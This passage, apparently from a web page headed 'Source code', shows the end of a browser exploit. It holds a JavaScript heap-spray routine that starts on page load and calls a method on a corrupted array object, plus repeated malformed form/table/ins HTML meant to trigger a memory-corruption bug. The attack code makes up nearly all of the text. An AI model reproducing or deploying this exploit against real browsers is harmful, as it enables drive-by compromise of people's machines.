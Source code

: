 ```
 //arrarr[arrindex][7] = 0x123456;
 //arrarr[arrindex][6] = 0x123456;
 //alert("done3");
 arrarr[arrindex+1].blah();
`}`
function run() `{`
 numsploits = 0;
 window.setTimeout(spray, 1000);
`}`
&lt;/script&gt;
&lt;body onload=run()&gt;
&lt;form&gt;&lt;table&gt;&lt;th&gt;&lt;ins&gt;aaaaaaaaaa aaaaaaaaaa&lt;/ins&gt;&lt;/th&gt;&lt;/table&gt;&lt;/form&gt;
&lt;form&gt;&lt;table&gt;&lt;th&gt;&lt;ins&gt;aaaaaaaaaa aaaaaaaaaa&lt;/ins&gt;&lt;/th&gt;&lt;/table&gt;&lt;/form&gt;
&lt;form&gt;&lt;table&gt;&lt;th&gt;&lt;ins&gt;aaaaaaaaaa aaaaaaaaaa&lt;/ins&gt;&lt;/th&gt;&lt;/table&gt;&lt;/form&gt;
&lt;form&gt;&lt;table&gt;&lt;th&gt;&lt;ins&gt;aaaaaaaaaa aaaaaaaaaa&lt;/ins&gt;&lt;/th&gt;&lt;/table&gt;&lt;/form&gt;
&lt;form&gt;&lt;table&gt;&lt;th&gt;&lt;ins&gt;aaaaaaaaaa aaaaaaaaaa&lt;/ins&gt;&lt;/th&gt;&lt;/table&gt;&lt;/form&gt;
&lt;form&gt;&lt;table&gt;&lt;th&gt;&lt;ins&gt;aaaaaaaaaa aaaaaaaaaa&lt;/ins&gt;&lt;/th&gt;&lt;/table&gt;&lt;/form&gt;
&lt;/body&gt;
```
